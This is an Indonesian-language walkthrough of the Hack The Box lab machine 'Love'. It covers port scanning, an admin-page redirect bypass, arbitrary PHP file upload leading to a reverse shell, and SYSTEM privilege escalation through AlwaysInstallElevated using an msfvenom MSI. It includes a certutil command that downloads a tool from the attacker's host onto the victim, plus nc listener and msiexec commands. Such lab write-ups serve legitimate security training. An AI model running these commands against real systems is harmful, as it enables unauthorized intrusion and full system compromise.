# HTB - Love



## Information Gathering

Seperti biasa, Hal pertama yang harus saya lakukan adalah mengumpulkan sebanyak mungkin informasi mengenai server yang akan kita serang. pada tahap ini saya ingin mencari tahu port/service dan OS apa yang dijalankan pada server tersebut.
langsung saja saya menggunakan masscan untuk melihat port apa saja yang terbuka

> masscan --rate=500 -e tun0 -p1-65535 10.10.10.239
> 

Setelah ditemukan daftar port yang terbuka, lalu saya menggunakan nmap untuk mengetahui service apa yang dijalankan pada port tersebut

> nmap -p 49665,49668,5040,139,3306,5986,5985,135,7680,445,49667,47001,49669,49666,443,49664,5000,49670,80 -A 10.10.10.239




Pada hasil nmap tersebut diketahui beberapa service yang dijalankan pada server tersebut, dan juga diketahui bahwa hostname nya adalah love.htb maka hostname tersebut perlu ditambahkan pada file hosts yang terletak di /etc/hosts.



jika sudah lanjut ketahap enumerasi

## Enumeration

dengan diketahui nya service apa saja yang berjalan, maka saya akan mulai melakukan enumerasi dari port smb lalu ke http

### Port 445 :smb

pada port ini saya mencoba melakukan enumerasi menggunakan smbclient untuk mengetahui share apa saja yang dapat diakses dan nmap untuk mengecek apakah smb nya menggunakan versi yang vulnerable


pada port tersebut tidak ada informasi yang menarik, maka saya melanjutkan enumerasi ke port http yang dimulai dari port 80

### Port 80 :http

ketika mengakses port 80 dari browser, halaman yang pertama kali ditampilkan adalah halaman login

saya tidak mengetahui mengenai username dan password yang digunakan. saya telah mencoba menggeunakan metode bruteforce dan sql / nosql injection, tetapi tidak ada yang berhasil, lalu mencoba mencari directory atau file apa saja yang ada pada website tersebut menggunakan ffuf

> ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://love.htb/FUZZ -e .html,.php,.txt -recursion -recursion-depth 1 -o port80.html -of html -rate 2000 -fs 4388 -fc 403
> 
> pada hasil tersebut ditemukan sesuatu yang menarik, pada directory admin ditemukan halaman dengan panjang yang berbeda-beda dan status code nya adalah 302, maka saya mencoba mengakses halaman tersebut dan melakukan intercept response nya menggunakan burpsuite
> 
> dapat dilihat bahwa ketika saya tidak terautentikasi dan mengakses page yang berada pada directory admin maka saya akan di redirect tetapi pada response tersebut server telah memuat isi halaman page pada directory tersebut, maka saya mencoba mengganti response code nya dari 302 Found menjad 200 OK. hasil nya saya berhasil masuk kehalaman dashboard
> 

setelah melakukan eksplorasi pada website tersebut, ditemukan suatu fitur untuk menambah kandidat, pada fitur tersebut terdapat field untuk melakukan upload foto



disini saya mencoba untuk upload file php yang berisi function phpinfo() untuk mengecek apakah vulnerable terhadap arbitary file upload.
walaupun terjadi error dikarenakan saya tidak terautentikasi dengan benar tetapi fle php tersebut berhasil di upload.


file php tersebut dapat diakses pada directory /images/info.php


## Foothold!!

dengan ada nya kerentanan tersebut saya dapat melakukan reverse shell via php file upload, saya menggunakan payload php milik ivan-sincek yang dapat di akses pada url berikut

> https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

yang perlu dilakukan pada payload tersebut adalah mengganti ip sesuai dengan ip vpn milik kita


jika suda setup nc listener pada terminal lokal kalian

> nc -lvnp 7777

lalu ulangi langkah yang sama saat melakukan upload phpinfo



dan berhasil mendapatkan shell level user

## Privilege Escalation 💫

untuk melakkan privilege escalation pada windows biasanya saya akan menggunakan tool yang bernama powerup, powerup dapat diunduh pada url berikut

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

jika tool tersebut sudah didownload, maka saya perlu mentransfer file tersebut ke server yang akan di attack. berikut merupakan step nya:

<ol>
<li>nyalakan http server pada komputer lokal</li>



<li>jalankan command berikut pada server victim</li>

> certutil -urlcache -f http://10.10.14.10/powerup.ps1 powerup.ps1



</ol>

setelah tool berhasil di transfer, jalankan tool tersebut



ditemukan bahwa server berpotensi dilakukan privile escalation dengan metode 'allways install elevated' yang merupakan windows policy yang memungkinkan user unprivilege untuk menginstall software menggunakan file msi dengan privilege system.



untuk memastikan nya saya coba menjalankan command berikut

> HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
> HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer



ternyata terbukti vulnerable, maka yang selanjut nya yang saya lakukan adalah membuat payload reverse shell menggunakan msfvenom



lalu transfer payload tersebbut ke server victim dengan metode yang sama seperti mentrasfer tool powerup.ps1.

jika sudah siapkan nc listener

> nc -lvnp 6666

lalu jalankan file msi tersebut dengan cara

> msiexec /quiet /qn /i privesc.msi

maka kita berhasil mendapatkan shell dengan privilege nt authority\system



